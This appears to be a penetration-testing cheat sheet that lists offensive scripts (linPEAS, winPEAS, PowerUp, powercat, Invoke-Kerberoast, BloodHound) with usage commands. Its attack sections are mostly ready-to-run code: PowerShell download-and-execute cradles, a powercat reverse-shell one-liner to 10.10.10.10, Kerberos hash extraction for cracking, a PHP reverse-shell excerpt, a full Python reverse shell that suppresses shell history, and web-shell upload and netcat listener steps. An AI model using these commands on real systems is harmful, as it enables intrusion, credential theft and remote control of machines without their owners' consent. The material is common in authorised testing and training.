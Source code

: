 # Scripts
Links to useful scripts for enumeration, privilege escalation, and shell access

## Linux

### linPEAS (Enumeration, Privilege Escalation)
- **Link**: [PEASS-ng/linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
- **Download**: [linpeas.sh](https://github.com/peass-ng/PEASS-ng/releases/download/20250601-88c7a0f6/linpeas.sh)
- **Description**: Enumerates Linux system details and identifies privilege escalation opportunities.

### Example Usage (Linux)
1. Download linPEAS:
   ```bash copy
   wget https://github.com/peass-ng/PEASS-ng/releases/download/20250601-88c7a0f6/linpeas.sh
   ```
2. Make executable and run:
   ```bash copy
   chmod +x linpeas.sh
   ./linpeas.sh
   ```

## Windows

### winPEAS (Enumeration, Privilege Escalation)
- **Link**: [PEASS-ng/winPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)
- **Download**: [winPEAS.bat](https://github.com/peass-ng/PEASS-ng/releases/download/20250601-88c7a0f6/winPEAS.bat)
- **Description**: Enumerates Windows system details and identifies privilege escalation opportunities.

### PowerUp (Privilege Escalation)
- **Link**: [PowerSploit/PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
- **Description**: PowerShell script for identifying Windows privilege escalation vulnerabilities.

### powercat (Shell)
- **Link**: [besimorhino/powercat](https://github.com/besimorhino/powercat/blob/master/powercat.ps1)
- **Description**: PowerShell script for establishing reverse or bind shells.

### Example Usage (Windows)
1. Download PowerUp:
   ```powershell copy
   powershell (New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1','PowerUp.ps1')
   ```
2. Run PowerUp:
   ```powershell copy
   . .\PowerUp.ps1
   Invoke-AllChecks
   ```
3. Download and run powercat:
   ```powershell copy
   powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.10.10:80/powercat.ps1');powercat -c 10.10.10.10 -p 1234 -e cmd"
   ```

## Active Directory

### Invoke-Kerberoast (Credential Harvesting, Privilege Escalation)
- **Link**: [EmpireProject/Invoke-Kerberoast.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1)
- **Description**: PowerShell script for extracting Kerberos ticket hashes for cracking.

### BloodHound (Enumeration, Active Directory Mapping)
- **Link**: [SpecterOps/BloodHound](https://github.com/SpecterOps/BloodHound)
- **Legacy Link**: [SpecterOps/BloodHound-Legacy](https://github.com/SpecterOps/BloodHound-Legacy)
- **Description**: Tool for mapping and analyzing Active Directory environments.

### Example Usage (Active Directory)
1. Download Invoke-Kerberoast:
   ```powershell copy
   powershell -ep bypass
   ```
   ```powershell copy
   iex(New-Object Net.WebClient).DownloadString('http://10.10.10.10:80/Invoke-Kerberoast.ps1')
   ```
2. Run Kerberoast:
   ```powershell copy
   Invoke-Kerberoast -OutputFormat hashcat | fl
   ```
3. Use BloodHound for AD enumeration (requires setup, refer to documentation).

## Web

### php-reverse-shell (Shell)
- **Link**: [pentestmonkey/php-reverse-shell](http://pentestmonkey.net/tools/php-reverse-shell)
- **Description**: PHP script for establishing a reverse shell from a web server.
- **Changes Required**: Update `$ip = '10.10.10.10'` and `$port = 1234` to match attacker’s IP and port.

```php copy
//snip
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.10.10';    // CHANGE THIS
$port = 1234;           // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
//snip
```

### Linux Reverse Shell (Shell, Web Context)
- **Description**: Python script for establishing a reverse shell, usable in web exploitation scenarios.
- **Changes Required**: Update `lhost = "10.10.10.10"` and `lport = 1234` to match attacker’s IP and port.

```python copy
import os
import pty
import socket

lhost = "10.10.10.10"   # CHANGE THIS
lport = 4444            # CHANGE THIS

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((lhost, lport))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
os.putenv("HISTFILE",'/dev/null')
pty.spawn("/bin/bash")
s.close()
```

### Example Usage (Web)
1. Start Python HTTP server to host scripts:
   ```bash copy
   python3 -m http.server 8888
   ```
2. Upload php-reverse-shell to the target:
   ```bash copy
   wget http://10.10.10.10:8888/php-reverse-shell.php -O shell.php
   ```
   ```bash copy
   curl -X POST -F "file=@shell.php" http://10.10.10.10/upload.php
   ```
3. Start a netcat listener:
   ```bash copy
   nc -lvnp 1234
   ```
4. Access the PHP shell:
   ```bash copy
   curl http://10.10.10.10/shell.php
   ```

